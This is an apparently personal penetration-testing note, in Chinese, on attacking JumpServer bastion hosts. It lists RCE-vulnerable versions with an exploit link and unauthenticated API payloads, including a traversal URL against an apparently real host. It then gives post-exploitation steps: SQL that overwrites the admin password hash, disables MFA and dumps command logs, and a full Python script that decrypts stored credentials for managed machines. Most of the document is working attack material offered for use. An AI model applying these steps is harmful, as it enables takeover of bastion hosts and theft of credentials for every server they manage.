



jumpserver堡垒机
目录
开源堡垒机
渗透
rce
- JumpServer < v2.6.2
- JumpServer < v2.5.4
- JumpServer < v2.4.5
- JumpServer = v1.5.9
https://github.com/Veraxy00/Jumpserver-EXP
未授权访问
3.0.0 <= JumpServer <= 3.6.3
目前各大CERT给出的payload是 /api/v1/terminal/sessions/ 或/api/v1/terminal/sessions/?limit=1或 /api/v1/terminal/sessions.json?limit=1

然后就可以下载视频文件（不确定该payload是否有效）
http://soho1.physis.com.cn:8600/media/xpack/../replay/2023-09-21/a7cf55c5-8d72-49e7-943c-486fed057047.cast.gz

后渗透
读取配置文件
https://docs.jumpserver.org/zh/master/admin-guide/env/ 配置文件参数列表
vi /opt/jumpserver/config/config.txt
改数据库进web
hash无法解密，因为被多次hash
#查看用户表
selelct * from users_user;
#备份原始密码
select password from users_user where username='admin'
#替换密文为yyds@1234
update users_user set password='pbkdf2_sha256$260000$OcZu99PdSdBwb7cqNHB778$kg8kDAcG24M0baJat3O/uX1IxTFWXtJGfbalY+7Pj84=' where username='admin'
如果开启了mfa二次认证，则需要绕过，后文会谈及
托管机器的账户密码获取
前提需要
- db数据库权限，查看托管账号密码密文
- jumpserver系统权限，查看配置文件获取加密secret_key

资产管理→资产列表 可以查看密码
但是看密码需要开启mfa才行。
但是我们可以进入数据库执行如下命令获取secret
select * from accounts_account;
然后把secret和secret_key放入如下脚本运行即可得到明文。
#coding:utf-8
import json
import base64
from Cryptodome.Cipher import AES
from Cryptodome.Util.Padding import pad
from Cryptodome.Random import get_random_bytes
from gmssl.sm4 import CryptSM4, SM4_ENCRYPT, SM4_DECRYPT
def signer_decode(val: str):
data = val.split(".")[1]
data = data + "=" * (-len(data) % 4)
return json.loads(base64.b64decode(data))
def process_key(key):
"""
返回32 bytes 的key
"""
if not isinstance(key, bytes):
key = bytes(key, encoding='utf-8')
if len(key) >= 32:
return key[:32]
return pad(key, 32)
class BaseCrypto:
def encrypt(self, text):
return base64.urlsafe_b64encode(
self._encrypt(bytes(text, encoding='utf8'))).decode('utf8')
def _encrypt(self, data: bytes) -> bytes:
raise NotImplementedError
def decrypt(self, text):
return self._decrypt(
base64.urlsafe_b64decode(bytes(text,
encoding='utf8'))).decode('utf8')
def _decrypt(self, data: bytes) -> bytes:
raise NotImplementedError
class GMSM4EcbCrypto(BaseCrypto):
def __init__(self, key):
self.key = process_key(key)
self.sm4_encryptor = CryptSM4()
self.sm4_encryptor.set_key(self.key, SM4_ENCRYPT)
self.sm4_decryptor = CryptSM4()
self.sm4_decryptor.set_key(self.key, SM4_DECRYPT)
def _encrypt(self, data: bytes) -> bytes:
return self.sm4_encryptor.crypt_ecb(data)
def _decrypt(self, data: bytes) -> bytes:
return self.sm4_decryptor.crypt_ecb(data)
class AESCrypto:
"""
AES
除了MODE_SIV模式key长度为：32, 48, or 64,
其余key长度为16, 24 or 32
详细见AES内部文档
CBC模式传入iv参数
本例使用常用的ECB模式
"""
def __init__(self, key):
if len(key) > 32:
key = key[:32]
self.key = self.to_16(key)
@staticmethod
def to_16(key):
"""
转为16倍数的bytes数据
:param key:
:return:
"""
key = bytes(key, encoding="utf8")
while len(key) % 16 != 0:
key += b'\0'
return key # 返回bytes
def aes(self):
return AES.new(self.key, AES.MODE_ECB) # 初始化加密器
def encrypt(self, text):
aes = self.aes()
return str(base64.encodebytes(aes.encrypt(self.to_16(text))),
encoding='utf8').replace('\n', '') # 加密
def decrypt(self, text):
aes = self.aes()
return str(
aes.decrypt(base64.decodebytes(bytes(
text, encoding='utf8'))).rstrip(b'\0').decode("utf8")) # 解密
class AESCryptoGCM:
"""
使用AES GCM模式
"""
def __init__(self, key):
self.key = process_key(key)
def encrypt(self, text):
"""
加密text，并将 header, nonce, tag (3*16 bytes, base64后变为 3*24 bytes)
附在密文前。解密时要用到。
"""
header = get_random_bytes(16)
cipher = AES.new(self.key, AES.MODE_GCM)
cipher.update(header)
ciphertext, tag = cipher.encrypt_and_digest(
bytes(text, encoding='utf-8'))
result = []
for byte_data in (header, cipher.nonce, tag, ciphertext):
result.append(base64.b64encode(byte_data).decode('utf-8'))
return ''.join(result)
def decrypt(self, text):
"""
提取header, nonce, tag并解密text。
"""
metadata = text[:72]
header = base64.b64decode(metadata[:24])
nonce = base64.b64decode(metadata[24:48])
tag = base64.b64decode(metadata[48:])
ciphertext = base64.b64decode(text[72:])
cipher = AES.new(self.key, AES.MODE_GCM, nonce=nonce)
cipher.update(header)
plain_text_bytes = cipher.decrypt_and_verify(ciphertext, tag)
return plain_text_bytes.decode('utf-8')
def get_aes_crypto(key, mode='GCM'):
if mode == 'ECB':
a = AESCrypto(key)
elif mode == 'GCM':
a = AESCryptoGCM(key)
return a
def get_gm_sm4_ecb_crypto(key):
return GMSM4EcbCrypto(key)
class Crypto:
def __init__(self, cryptoes):
self.cryptoes = cryptoes
@property
def encryptor(self):
return self.cryptoes[0]
def encrypt(self, text):
return self.encryptor.encrypt(text)
def decrypt(self, text):
for decryptor in self.cryptoes:
try:
origin_text = decryptor.decrypt(text)
if origin_text:
# 有时不同算法解密不报错，但是返回空字符串
return origin_text
except (TypeError, ValueError, UnicodeDecodeError, IndexError):
continue
if __name__ == "__main__":
# SECRET_KEY
key = 'MkMyRDRENTYtNEZGRC0wODU1LUM1OEItNjRFNTJFMzM4RkYz'
# private_key 或 password 在数据库里的值
data = [
'Ktue2Otr3+hNOLUhnw3bYQ==rmIL8fQxUl0pyaxmDjN+8A==d0OpU7SFlekcuI/l8QLXBg==YgMxn/UGQzXluJBkEO9zyg==',
'8z7u+nwaP/vI+JL1yzEWkw==Uw3O+MKsVmjdWfK6fbjO0w==pWJgXplH1Va1FQd5AfXA9Q==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'
]
crypto = Crypto([
get_aes_crypto(key, mode='ECB'),
get_aes_crypto(key, mode='GCM'),
get_gm_sm4_ecb_crypto(key),
])
print('by encrypt:', crypto.encrypt('J2AT6ATXT3AL4444'))
for d in data:
if d.count(".") == 2:
print('by signer:', signer_decode(d))
else:
print('by crypto:', crypto.decrypt(d))
mfa操作
#关闭mfa
update users_user set mfa_level=0 where username='admin'
#开启mfa
update users_user set mfa_level=1 where username='admin'
查看运维记录
SELECT * FROM jumpserver.terminal_command